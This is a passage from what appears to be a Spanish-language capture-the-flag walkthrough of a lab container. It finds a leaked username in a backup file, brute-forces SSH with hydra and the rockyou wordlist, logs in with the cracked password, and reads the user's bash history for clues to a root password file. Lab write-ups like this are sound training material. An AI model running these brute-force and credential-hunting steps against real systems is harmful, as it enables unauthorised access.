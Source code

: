 Encontramos varios ficheros entre ellos `/backup/backup.txt`

```bash
$ curl http://172.17.0.2/backup/backup.txt        
Usuario para todos mis servicios: russoski (cambiar pronto!)
```

Con esto ya tenemos un usuario del sistema **russoski**.

# Intrusión

Vamos a probar si el usuario **russoski** tiene una password que este en el famoso diccionario *rockyou.txt*. Usaremos la herramienta hydra para realizar un ataque de fuerza bruta al servicio `ssh`. Le indicamos con `-l` el nombre de usuario, con la`-P` el diccionario *rockyou.txt* con las psswords, con los parámetros `-V -I -f` le indicamos que nos muestre por pantalla el detalle de la prueba, que empiece de 0 aunque encuentre un fichero de restauración y que si encuentra una password que se detenga.

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt -V -I -f ssh://172.17.0.2
...
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```

Encontramos un password válida para **russoski**:

```bash
$ ssh russoski@172.17.0.2
russoski@172.17.0.2's password:
russoski@28c41160317a:~$
```

Hacemos un listado completo del home del usuario con `ls -la` y vemos que el fichero `.bash_history` no está vacio ni esta redirigido a `/dev/null`. Lo leemos:

```bash
russoski@28c41160317a:~$ cat .bash_history 
ls
pwd
exit
ls
pwd
exit
su root
sudo -l
clear
su root
cd /var/www/html
ls
ls -la
cat .formrellyrespexit.html 
clear
ls
cd backup/
cd ..
cd important/
ls -la
cat .root-passwd.txt 
clear
cd /home/russoski/
ls
cd Proyectos/
ls
cd ..
cd Documentos/
ls
la -la
```